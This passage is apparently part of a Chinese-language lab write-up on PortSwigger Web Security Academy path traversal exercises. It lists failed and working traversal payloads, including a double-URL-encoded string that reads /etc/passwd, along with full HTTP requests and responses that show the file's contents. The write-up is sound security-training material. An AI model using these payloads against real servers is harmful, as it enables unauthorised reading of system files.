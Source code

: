 ```http
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6


HTTP/2 200 OK
Content-Type: image/jpeg
Set-Cookie: session=6eI5Stzdmcj99g8D5HpHNqlLuE7qUXpU; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 2316

root:x:0:0:root:/root:/bin/bash
......
```

但奇怪的是反斜杠为啥无法读取，按理说没过滤才对。

```plaintext
..../\/..../\/..../etc/passwd
..\/\/..\/\/..\/\/..\/etc/passwd
```

#### Lab: File path traversal, traversal sequences stripped with superfluous URL-decode

题意：应用还是过滤了遍历，在处理前进行了 URL 解码。

试了试双写不行，二次编码也不行，防护应该不是剔除。

```plaintext
./....//....//....//etc/passwd

.%252f....%252f%252f....%252f%252f....%252f%252fetc%252fpasswd
```

看了官方答案和 [z3nsh3ll](https://www.youtube.com/watch?v=nclJPOL3PXc) 详细解答，只是把要过滤的特殊字符斜线 / 二次编码即可。

```plaintext
..%252f..%252f..%252fetc/passwd
```

因此成功解决。

```plaintext
GET /image?filename=.%252f..%252f%252f..%252f%252f..%252f%252fetc%252fpasswd HTTP/2
Host: 0af700990422e09d807c4e50007300b4.web-security-academy.net
Cookie: session=Mn7ofDrzZJBGd8aA7kE359u37yjxXgQr
Sec-Ch-Ua: "Microsoft Edge";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Dnt: 1
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.47
Sec-Ch-Ua-Platform: "Windows"
Accept: image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a5200070353807a805a21e800aa0009.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6


HTTP/2 200 OK
Content-Type: image/jpeg
Set-Cookie: session=tXFiKOBX8VdXvNYiChd7euvZcnveBhye; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 2316

root:x:0:0:root:/root:/bin/bash
```